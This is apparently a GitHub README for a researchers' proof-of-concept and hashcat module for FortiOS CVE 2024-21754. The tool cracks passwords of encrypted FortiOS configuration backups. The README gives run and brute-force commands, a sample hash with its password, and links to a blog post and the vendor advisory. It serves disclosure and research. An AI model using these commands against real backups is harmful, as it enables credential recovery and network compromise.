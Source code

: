 # FortiGateGate
This is a POC and a hashcat module for FortiOS CVE 2024-21754 we found.

It allows "fast" cracking of encrypted FortiOS configuration backups prior FortiOS 7.4.4. 

# Python POC

python poc.py fortigate_7-4_2360_202308160737_pw_hashcat.conf decrypted hashcat

# Hashcat

Copy the files into the subdirectories of hashcat source code, build and run using module 33900. 

E.g. using

hashcat -a 3 -m 33900 --force --increment ./hash ?l?l?l?l?l?l?l

or when testing/debugging

hashcat -a 3 -m 33900 --self-test-disable --potfile-disable -d 1 -n 1 -u 1 -T 1 --force --increment ./hash ?l?l?l?l?l?l?l

## Example hashcat Input Hash
First 62 bytes of encrypted configuration backup:

234647424b7c347c4647564d36347c377c30347c323336307c0af6daa1d74547a3774f864120d4e86d481e466a44e004559c92495ae0f8c9391f406f7bdf
pw: hashcat


Blogpost: https://cyber.wtf/2024/06/13/give-me-your-fortigate-configuration-backup-and-i-rule-your-network/

FortiNet Advisory: https://www.fortiguard.com/psirt/FG-IR-23-423